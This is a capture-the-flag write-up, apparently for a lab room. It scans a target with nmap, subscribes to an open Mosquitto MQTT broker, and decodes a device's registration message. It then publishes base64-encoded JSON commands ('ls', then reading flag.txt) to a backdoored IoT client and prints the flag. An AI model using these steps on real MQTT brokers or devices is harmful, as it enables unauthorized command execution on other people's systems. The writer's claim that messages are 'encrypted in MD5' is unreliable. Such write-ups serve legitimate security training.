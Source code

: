 #### Info
John was working on his smart home appliances when he noticed weird traffic going across the network. Can you help him figure out what these weird network communications are?

What is the flag?
 
---

_Possibly looking for some type of pcap file?_

---

# Nmap

```php
➜  bugged nmap -A -p- -oN nmap/initial.txt 10.10.185.229
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-15 08:43 BST
Nmap scan report for 10.10.185.229
Host is up (0.020s latency).
Not shown: 65534 closed tcp ports (conn-refused)
PORT     STATE SERVICE                  VERSION
1883/tcp open  mosquitto version 2.0.14
| mqtt-subscribe: 
|   Topics and their most recent payloads: 
|     kitchen/toaster: {"id":16592131440287782691,"in_use":false,"temperature":157.48482,"toast_time":181}
|     storage/thermostat: {"id":15678919872454228759,"temperature":23.598772}
|     $SYS/broker/clients/connected: 2
|     $SYS/broker/version: mosquitto version 2.0.14
|     $SYS/broker/load/bytes/received/1min: 4245.16
|     patio/lights: {"id":8513127676476778522,"color":"WHITE","status":"ON"}
|     livingroom/speaker: {"id":10437392956646599111,"gain":45}

```

I need to interact with mosquito.

```php
sudo apt install mosquitto-clients
```

- Subscribe to the machine all devices. Use “**_#_**”

```php
mosquitto_sub -h 10.10.185.229 -t "#" 
```

- Use [CyberChef](https://gchq.github.io/CyberChef/) to decode the base64, or use CLI.

![[Pasted image 20240715091005.png]]

```php
echo -n eyJpZCI6ImNkZDFiMWMwLTFjNDAtNGIwZi04ZTIyLTYxYjM1NzU0OGI3ZCIsInJlZ2lzdGVyZWRfY29tbWFuZHMiOlsiSEVMUCIsIkNNRCIsIlNZUyJdLCJwdWJfdG9waWMiOiJVNHZ5cU5sUXRmLzB2b3ptYVp5TFQvMTVIOVRGNkNIZy9wdWIiLCJzdWJfdG9waWMiOiJYRDJyZlI5QmV6L0dxTXBSU0VvYmgvVHZMUWVoTWcwRS9zdWIifQ== | base64 -d
```

```php
{"id":"cdd1b1c0-1c40-4b0f-8e22-61b357548b7d","registered_commands":["HELP","CMD","SYS"],"pub_topic":"U4vyqNlQtf/0vozmaZyLT/15H9TF6CHg/pub","sub_topic":"XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub"}% 
```

- Use the value to Subscribe to IoT machine and wait for the output. Set the “**_sub_value_**” as topic “**_-t_**”. Don’t exit and move to another terminal.

```php
mosquitto_sub -h <machine_IP> -t <pub_topic>
```

![](https://miro.medium.com/v2/resize:fit:700/1*vX37bdE31hP0AjJHrNNJDA.png)

Use the value of “**_pub_topic_**” publish into the IoT machine together with random message and the host machine IP.

```php
mosquitto_pub -t <pub_topic> -m <base64_as_the_messege> -h <machine_IP>
```

```php
mosquitto_pub -t "U4vyqNlQtf/0vozmaZyLT/15H9TF6CHg/pub" -m "The Message" -h 10.10.185.229
```

![](https://miro.medium.com/v2/resize:fit:700/1*aQeAi1-brC14N0OHjutPjQ.png)

The output goes to the “Subscribe Terminal” started above.

Output of the Publish Topic to the Subscriber Topic. Don’t cancel the terminal.

![[Pasted image 20240715092117.png]]

**The messages are encrypted in MD5 depending on if you use pub or sub**
- I could see the message in plaintext and in md5 as i was playing with it.

Decode with CyberChef the Value. It Reveals a format to be used in the mosquitto.

![](https://miro.medium.com/v2/resize:fit:700/1*mbaCgLCFpWmRj70x4FKcWw.png)

Use the format to construct a command and then Encode the format into base64 as follows.

![](https://miro.medium.com/v2/resize:fit:700/1*COduqBZG4rUHg7uxhIjTKQ.png)

Repeat Publish with the base64 value above as the message “**_-m_**”.

```php
{"id": "cdd1b1c0-1c40-4b0f-8e22-61b357548b7d", "cmd": "CMD", "arg": "ls"}
```

payload
```php
eyJpZCI6ICJjZGQxYjFjMC0xYzQwLTRiMGYtOGUyMi02MWIzNTc1NDhiN2QiLCAiY21kIjogIkNNRCIsICJhcmciOiAibHMifQo=
```

=={"id":"cdd1b1c0-1c40-4b0f-8e22-61b357548b7d","response":"flag.txt\n"}==

Output of another Subscriber Topic.

![](https://miro.medium.com/v2/resize:fit:700/1*QFh_ljDFiaC5TSPe5GiHQw.png)

Decode with CyberChef again. Reveals that there is a “**_flag.txt_**” _file on the directory._

![](https://miro.medium.com/v2/resize:fit:700/1*WvzazZjekeHl9t9tyO1FEQ.png)

Encode the command to read from the “**_flag.txt_**” file.

![](https://miro.medium.com/v2/resize:fit:700/1*OaEbbet19tt1G5J7iKy1Ng.png)

Repeat again with Publish Topic ID.

![](https://miro.medium.com/v2/resize:fit:700/1*LwqpGQi3tT4Cku4SyL1XsQ.png)

The last base64 output from Publish Topic.

![](https://miro.medium.com/v2/resize:fit:700/1*-QQYAkWpYDyu5Qz_U3pIXg.png)

Decode with CyberChef Again. To get the flag.

---

![[Pasted image 20240715095538.png]]

**flag{18d44fc0707ac8dc8be45bb83db54013}**

---

### Working method

```php
mosquitto_sub -t "Pub_Topic_ID" -h 10.10.185.229
```

```php
mosquitto_pub -t "Sub_Topic_ID" -m "Encrytpted_String" -h 10.10.185.229
```

---




